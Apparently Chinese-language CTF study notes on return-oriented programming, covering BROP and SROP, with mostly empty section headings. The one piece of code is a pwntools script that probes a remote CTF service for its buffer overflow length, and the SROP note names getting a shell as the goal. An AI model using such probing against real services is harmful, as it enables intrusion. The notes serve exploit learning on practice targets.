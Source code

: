 

# ROP编程

## 栈迁移

# BROP

`brop`是一项非常巧妙的技术，在无法获取到二进制程序和`libc`的情况下进行远程溢出

## 寻找溢出长度

```python
from pwn import *
def getsize():
  i=1
  while 1:
    try:
      p=remote('node5.buuoj.cn',9999)
      p.recvuntil('password?\n')
      p.send(b'A'*i)
      data=p.recv()
      p.close()
      if not data.startswith('No password'):
        return i-1
      else:
        i+=1
     except EOFError:
        p.close()
        return i-1
      
size=getsize()
print(size)
```

## 寻找stop gadgets

## 寻找 brop gadgets

## 寻找 puts 函数的 plt 地址

## 寻找 puts 函数的 got 地址并 [dump](https://so.csdn.net/so/search?q=dump&spm=1001.2101.3001.7020) plt 表

# SROP

`Sigreturn`则是一种特殊的系统调用，它将程序的执行状态恢复到之前通过信号处理函数保存的状态，我们可以恶意构造`Sigreturn`函数进行篡改寄存器和栈，以达到getshell目的

系统调用号查看路径`/usr/include/x86_64-linux-gnu/asm/unistd_64.h`或者`unistd_32.h`
